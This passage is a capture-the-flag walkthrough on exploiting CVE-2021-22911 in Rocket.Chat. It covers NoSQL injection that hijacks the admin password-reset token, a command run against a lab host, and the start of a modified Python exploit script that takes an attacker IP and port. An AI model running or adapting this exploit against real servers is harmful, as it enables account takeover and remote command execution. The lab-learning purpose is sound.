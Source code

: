 This exploit has a CVE number of CVE-2021-22911, which let us exploit the server through NoSQL injection, hijacking user accounts (like admin), escalate privileges, and execute arbitrary system commands on the host server.

![image](https://user-images.githubusercontent.com/76821053/128164223-c6f5e70b-7870-4ffb-b7b6-e4d8147e7fdb.png)

There is more information about this exploit at https://blog.sonarsource.com/nosql-injections-in-rocket-chat and at https://github.com/CsEnox/CVE-2021-22911.

We need a normal user to start the exploit, let us create one by registering a new user:

![image](https://user-images.githubusercontent.com/76821053/128164295-0e06ce08-6238-4b3a-9849-8d46286eeea3.png)

Let's assume that the administrator user has the name of admin, since we are in a public chat with him. Also take a look at the rc_token, which is the one we are going to abuse and hijack admin password token through nosql injection.

![image](https://user-images.githubusercontent.com/76821053/128164374-0b2bd4ba-5b0a-41af-b9b3-c05c5e185ea1.png)

Running the exploit against the server may take a while. The injection is time base, so it will take some time to get the token hash.

```
python3 ./rocket_rce_50108.py -u test@test.com -a admin@rocket.thm -t 'http://chat.rocket.thm'
```

When running the exploit, at the end i receive an error.  ****Non-base32 digit found **** . 

![image](https://user-images.githubusercontent.com/76821053/128164476-8b4b1352-044e-48a9-9486-ce130086e4d7.png)

After some web searching i found found out that it errors out because there is no 2fa secret key, so the admin account isn't protected by 2fa. This means that the exploit wasn't able to change the password. Now i need to modify the exploit to not use the 2fa code.

Let us try and change the exploit a bit to see if we can bypass the 2fa code and execute a custom rce.

```python
#!/usr/bin/python

import requests
import string
import time
import hashlib
import json
import argparse

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-u', help='Low priv user email [ No 2fa ]', required=True)
parser.add_argument('-a', help='Administrator email', required=True)
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', required=True)
parser.add_argument('-i', help='Ip_address', required=True)
parser.add_argument('-p', help='port', required=True)
args = parser.parse_args()


adminmail = args.a
lowprivmail = args.u
target = args.t
port = args.p
ip_address = args.i


def forgotpassword(email,url):
	payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
	headers={'content-type': 'application/json'}
```